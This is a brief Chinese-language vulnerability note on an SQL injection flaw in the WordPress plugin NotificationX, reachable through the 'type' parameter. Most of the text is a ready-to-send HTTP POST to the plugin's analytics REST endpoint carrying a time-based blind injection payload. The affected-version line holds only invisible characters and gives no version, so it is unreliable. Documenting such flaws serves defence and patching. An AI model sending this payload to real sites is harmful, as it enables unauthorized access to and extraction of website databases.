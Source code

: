 ### 漏洞描述：

WordPress Plugin NotificationX 存在安全漏洞，该漏洞源于对用户提供的参数转义不充分以及对现有 SQL 查询缺乏充分的准备，很容易通过“type”参数受到 SQL 注入攻击。

### 影响版本：

WordPress Plugin NotificationX ‏‍‎‌‏‌‏‌‎‎‌‏‎‏‌‌‎‌‏‌‏‏‌‌‏‍‎‏‏‌‏‌‍​‎‌‏‎‏‎‍‍‏‎‎‏

### Payload：

```jsx
POST /wp-json/notificationx/v1/analytics HTTP/1.1
Host:host
Content-Type: application/json

{"nx_id": "1","type": "clicks`=1 and 1=sleep(5)-- -"}
```

